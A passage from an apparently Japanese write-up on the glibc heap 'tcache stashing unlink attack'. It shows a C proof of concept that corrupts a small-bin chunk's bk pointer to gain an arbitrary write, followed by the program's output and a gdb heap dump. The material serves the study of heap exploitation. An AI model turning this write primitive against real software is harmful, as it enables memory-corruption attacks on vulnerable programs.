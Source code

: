 ```c
        ps[i] = malloc(0x88);
    }

    // fill tcache
    for (int i = 1; i < 14; i += 2) {
        free(ps[i]);
    }

    // send to unsorted bin
    for (int i = 0; i < 14; i += 2) {
        free(ps[i]);
    }

    // send to small bin
    malloc(0x98);

    // empty tcache
    for (int i = 0; i < 7; i++) {
        malloc(0x88);
    }

    // change bk of tha first chunk of smallbin
    ps[12][1] = &target;

    // stashing unlink attack
    malloc(0x88);

    // get pointer to target
    ull *p = malloc(0x88);
    *p = 0x1145141919810931;

    printf("[+] target -> %p: %llx\n", &target[2], target[2]);
}
```

結果は次のようになり、無事に値が書き換わっていることがわかる

```
$ ./tcache_stashing_unlink_attack
[+] target -> 0x7fffced3ef00: deadbeefcafebabe
[+] target -> 0x7fffced3ef00: 1145141919810931
```

実際にgdbで覗いてどうなっているかを調べてみる。
tcacheを埋めた後に、unsorted binにチャンクを7つ入れるところまでは特に問題無い。

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x8005a70 (size : 0x20590) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x8005950 (size : 0x90) <--> 0x8005830 (size : 0x90) <--> 0x8005710 (size : 0x90) <--> 0x80055f0 (size : 0x90) <--> 0x80054d0 (size : 0x90) <--> 0x80053b0 (size : 0x90) <--> 0x8005290 (size : 0x90)
(0x90)   tcache_entry[7](7): 0x80059f0 --> 0x80058d0 --> 0x80057b0 --> 0x8005690 --> 0x8005570 --> 0x8005450 --> 0x8005330
```